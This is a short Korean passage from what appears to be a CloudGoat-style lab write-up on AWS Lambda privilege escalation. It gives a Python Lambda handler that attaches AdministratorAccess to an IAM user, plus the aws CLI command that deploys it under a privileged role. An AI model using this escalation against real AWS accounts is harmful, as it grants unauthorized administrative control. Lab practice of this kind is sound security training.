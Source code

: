 ```python
from boto3 import *
def lambda_handler(evt, cont):
	cli = client('iam')
	resp = cli.attach_user_policy(
											UserName='chris-lambda_privesc_cgidejvizwx9mo',
											PolicyArn='arn:aws:iam::aws:policy/AdministratorAccess'
	)
	return resp
		
```

- `iam` 서비스를 이용하여 `chris` 사용자에게 debug 관리 정책을 연결할 예정이기 때문에 다음과 같이 `attach_user_policy` 메서드를 사용하여 해당 인스턴스를 생성할 수 있도록 설계를 하였습니다.

![](./10.png)

- 새로운 lambda 함수를 생성하는 방법은 `lambda-create-function` 기능을 이용하여 lambda 핸들러 함수를 등록할 수가 있습니다.

```python
aws lambda create-function \
	--function-name admin_function \
	--runtime python3.6 \
	--role arn:aws:iam::712987748923:role/cg-debug-role-lambda_privesc_cgidejvizwx9mo \
	--handler lambda_function.lambda_handler \
	--zip-file fileb://lambda_function.py.zip \
	--profile lambdaManager
```

![](./11.png)

- 성공적으로 완료가 된 상황이라면 다음과 같이 StatusCode:200을 반환합니다.
